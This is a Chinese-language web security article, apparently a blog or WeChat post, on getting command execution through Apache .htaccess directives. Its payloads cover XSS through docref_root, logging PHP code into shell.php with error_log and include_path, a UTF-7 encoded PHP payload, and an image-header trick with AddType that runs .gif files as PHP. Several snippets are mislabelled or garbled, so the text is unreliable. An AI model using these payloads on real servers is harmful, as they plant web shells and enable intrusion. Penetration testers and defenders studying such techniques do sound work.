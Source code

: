 ![](https://mmbiz.qpic.cn/mmbiz_png/La0UYqKZf7d1cJs2NgO1Jby9UsIxrY7ddZR3artTZnavW5TyL5osrgauVFdVV2vUv3zmRLjiaLgicb7GgebrZoHw/640?wx_fmt=png)

**命令执行**
--------

### CGI 启动

cgi_module 需要被加载，**即 apache 配置文件中有：**

```
php_flag display_errors 1
php_flag html_errors 1
php_value docref_root "'><script>alert(1);</script>"
```

```
<?php include('shell'); #报错页面
```

```
php_value error_log /var/www/html/shell.php
php_value include_path "<?php phpinfo(); __halt_compiler();"
```

访问 shell.xx 后将弹出计算器：

![](https://mmbiz.qpic.cn/mmbiz_png/La0UYqKZf7d1cJs2NgO1Jby9UsIxrY7dFeFeevYfZboDTL2rlKr8iaGt1fyuzt8KrLRsWVXYWHhmaU9icjjEugsg/640?wx_fmt=png)

```
# 第一次
php_value error_log /tmp/shell #定义错误路径
#---- "<?php phpinfo(); __halt_compiler();" in UTF-7:
php_value include_path "+ADw?php phpinfo()+ADs +AF8AXw-halt+AF8-compiler()+ADs"
# 第二次
php_value include_path "/tmp" #将include()的默认路径改变
php_flag zend.multibyte 1
php_value zend.script_encoding "UTF-7"
```

### FastCGI 启动

mod_fcgid.so 需要被加载。**即 apache 配置文件中有：**

```
#define width 1337
#define height 1337
```

然后. htaccess 中的内容：

```
#define width 1337
#define height 1337
AddType application/x-httpd-php .gif
```

shell.xx 的内容随意。
